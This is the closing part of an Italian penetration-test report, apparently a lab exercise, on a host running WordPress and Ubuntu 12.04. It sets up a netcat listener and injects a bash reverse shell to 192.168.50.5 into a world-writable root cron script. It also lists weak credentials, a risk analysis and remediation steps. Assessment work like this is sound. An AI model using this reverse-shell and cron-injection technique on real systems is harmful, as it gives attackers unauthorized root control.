

**Risultato Critico:**

**Permessi:** `-rwxrwxrwx` (777)
- **Owner:** root
- **Group:** root

**Dettagli della Vulnerabilità:**
- File eseguito come root ogni minuto via cron
- Permessi 777 = qualsiasi utente può modificare il file

**Impatto:** Qualsiasi utente sul sistema (incluso www-data) può modificare questo script e ottenere esecuzione di comandi come root.

**Piano di Exploitation:**
1. Modificare `/usr/local/bin/cleanup` per eseguire una reverse shell
2. Attendere il prossimo minuto (esecuzione automatica via cron)
3. Ricevere shell con privilegi root

---

### Fase 13: Configurazione Listener per Shell Root

**Strumento:** Netcat

**Comando:**
```bash
nc -lvnp 443
```

---

### Fase 14: Iniezione Script Malevolo

**Azione:** Modifica del cron script per privilege escalation

**Contenuto Originale:**
```bash
#!/bin/sh
rm -rf /var/log/apache2/*    # Clean those damn logs!!
```

**Contenuto Malevolo:**



**Il Payload - Reverse Shell TCP:**
```bash
#!/bin/bash
sh -i >& /dev/tcp/192.168.50.5/443 0>&1
```

**Timeline di Esecuzione:**

Il cron job esegue lo script ogni minuto. Entro 60 secondi, il sistema eseguirà automaticamente la reverse shell come root.

---

### Fase 15: Accesso Root Ottenuto

**Connessione Stabilita:**



**Attacco Completato con Successo:**

Completa compromissione del sistema tramite:
1. WordPress credentials brute force
2. Theme Editor RCE
3. World-writable cron job privilege escalation

---

## Analisi del Rischio

### Valutazione Complessiva del Rischio: CRITICA

- Sistema esposto con servizi vulnerabili multipli
- Credenziali deboli su servizi critici (SSH + WordPress)
- FTP anonimo abilitato con information disclosure
- Configurazione sudo insicura (Path 1)
- WordPress obsoleto e non protetto (Path 2)
- World-writable cron job eseguito come root (Path 2)
- **Due vettori di attacco indipendenti** entrambi portano a root

### Valutazione Rischio Combinata

**Vettori di Attacco Indipendenti Multipli:**

Il sistema presenta **almeno due path completamente indipendenti** per ottenere root access, aumentando drasticamente la probabilità di compromissione:

1. Se un amministratore corregge solo le vulnerabilità SSH, l'attaccante può usare WordPress
2. Se viene protetto WordPress, l'attaccante può usare SSH
3. Entrambi i path sono facilmente exploitable con tool pubblici
4. Entrambi i path richiedono solo credenziali deboli come entry point

---

## Raccomandazioni

### Azioni Immediate (Priorità 1 - 24/48 ore)

1. **Disabilitare l'accesso FTP anonimo**

2. **Rimuovere o proteggere l'installazione WordPress backup**

3. **Cambiare IMMEDIATAMENTE le password**

4. **Correggere i permessi del cron script**

5. **Rimuovere i privilegi sudo non necessari**

6. **Disabilitare WordPress Theme/Plugin Editor**

### Azioni a Breve Termine (Priorità 2 - 1/2 settimane)

7. **Aggiornare WordPress all'ultima versione**

8. **Disabilitare autenticazione password SSH / Implementare autenticazione basata su chiavi SSH**

9. **Implementare Web Application Firewall (WAF)**

### Azioni a Lungo Termine (Priorità 3 - 1/3 mesi)

10. **Pianificare migrazione a Ubuntu 22.04 LTS**

11. **Implementare 2FA/MFA**

---

## Conclusione

Il penetration test ha dimostrato che il sistema target 192.168.50.9 presenta **vulnerabilità critiche multiple** su diversi livelli che permettono la completa compromissione del sistema attraverso **due attack path completamente indipendenti**, entrambi portando a root access in tempi estremamente brevi.

### Riepilogo Risultati Chiave

**Percorso di Attacco 1 - SSH**
- Sistema operativo obsoleto (End of Life - Ubuntu 12.04)
- Servizio FTP mal configurato con accesso anonimo
- Information disclosure (lista utenti esposta)
- Credenziali SSH estremamente deboli (anne:princess)
- Privilege escalation banale tramite configurazione sudo errata

**Percorso di Attacco 2 - WordPress**
- WordPress 4.5 obsoleto esposto tramite robots.txt
- Credenziali amministrative deboli (john:enigma)
- Theme Editor abilitato permettendo iniezione codice PHP
- Remote Code Execution come www-data
- Script cron world-writable eseguito come root (permessi 777)
- Privilege escalation immediata sfruttando il cron job

**Data del Report:** 27 Gennaio 2026  
**Versione:** 2.0 - FINALE

---

*Questo documento contiene informazioni confidenziali e deve essere trattato in conformità con le policy di sicurezza aziendali.*
